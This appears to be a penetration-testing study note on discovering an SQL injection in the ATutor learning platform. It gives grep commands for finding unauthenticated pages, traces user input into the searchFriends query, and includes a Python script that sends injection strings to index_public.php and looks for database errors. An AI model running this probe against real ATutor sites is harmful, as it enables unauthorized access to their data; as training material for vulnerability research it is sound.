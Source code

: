 # SQL Injection

# Initial Vulnerability Discovery

## Finding Publicly Accessible Webpages

Pages that do not require authentication have the line: `$_user_location = 'public';`

- This finds the webpage `/mods/_standard/social/index_public.php`

```bash
Search:
grep -rnw /var/www/html/ATutor -e "^.*user_location.*public.*" --color
```

## Looking for SQLi

- When looking through the code, we see variable names such as query, qry, search or other functions. We should look through the path of these function calls to discover where it leads, as it may lead to improperly handled user data.

```bash
nano ./ATutor/mods/_standard/social/index_public.php
```

- In this case, it leads to the `searchFriends` function, which uses the `$addslashes`function for sanitation.
- Get funciton definition of searchFriends:

```bash
grep -rnw . -e "function searchFriends' --color
```

- User controlled `$name` variable is exploded into an array called `$sub_names` using space as separator.
- For each element of `$sub_names`, the element is concatenated into a string containing SQL LIKE keyword and incorporated into SQL query `$query`
- These `$query` variables are concatenated to form the final SQL query.
- When we send a GET request terminated by a single quote, we get a HTTP request error.

```bash
Warning:  Invalid argument supplied for foreach() in /var/www/html/ATutor/mods/_standard/social/lib/friends.inc.php on line 350
```

```bash
import sys
import re
import requests
from bs4 import BeautifulSoup

def searchFriends_sqli(ip, inj_str):
    target = "http://%s/ATutor/mods/_standard/social/index_public.php?q=%s" % (ip, inj_str)
    r = requests.get(target)
    s = BeautifulSoup(r.text, 'lxml')
    print "Response Headers:"
    print r.headers
    print
    print "Response Content:"
    print s.text
    print
    error = re.search("Invalid argument", s.text)
    if error:
        print "Errors found in response. Possible SQL injection found"
    else:
        print "No errors found"
```